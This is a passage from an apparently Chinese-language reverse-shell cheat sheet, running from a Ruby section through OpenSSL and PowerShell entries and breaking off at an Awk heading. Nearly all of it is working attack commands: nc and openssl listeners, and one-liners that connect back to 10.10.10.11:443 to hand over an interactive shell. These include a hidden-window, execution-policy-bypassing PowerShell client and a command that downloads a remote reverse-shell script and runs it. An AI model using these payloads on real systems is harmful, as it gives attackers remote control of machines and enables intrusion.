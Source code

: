 ```bash
nc -lvp 443
```
然后在靶机上执行如下命令：

```bash
ruby -rsocket -e'f=TCPSocket.open("10.10.10.11",443).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
```
```bash
ruby -rsocket -e 'exit if fork;c=TCPSocket.new("10.10.10.11","443");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'
```
Windows平台如下：
```bash
ruby -rsocket -e 'c=TCPSocket.new("10.10.10.11","443");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'
```
## 11、使用OpenSSL反弹shell
首先在本地监听TCP协议443端口
```bash
openssl req -x509 -newkey rsa:4096 -keyout key.pem -out cert.pem -days 365 -nodes
```
```bash
openssl s_server -quiet -key key.pem -cert cert.pem -port 443
```
```bash
ncat --ssl -vv -l -p 443
```
然后在靶机上执行如下命令：
```bash
mkfifo /tmp/s; /bin/sh -i < /tmp/s 2>&1 | openssl s_client -quiet -connect 10.10.10.11:443 > /tmp/s; rm /tmp/s
```
## 12、win平台下使用Powershell反弹shell
首先在本地监听TCP协议443端口

```bash
nc -lvp 443
```
然后在靶机上执行如下命令：

```bash
powershell -NoP -NonI -W Hidden -Exec Bypass -Command New-Object System.Net.Sockets.TCPClient("10.10.10.11",443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```
```bash
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.10.11',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```
```bash
powershell IEX (New-Object Net.WebClient).DownloadString('https://gist.githubusercontent.com/staaldraad/204928a6004e89553a8d3db0ce527fd5/raw/fe5f74ecfae7ec0f2d50895ecf9ab9dafe253ad4/mini-reverse.ps1')
```
## 13、利用Awk反弹shell
首先在本地监听TCP协议443端口
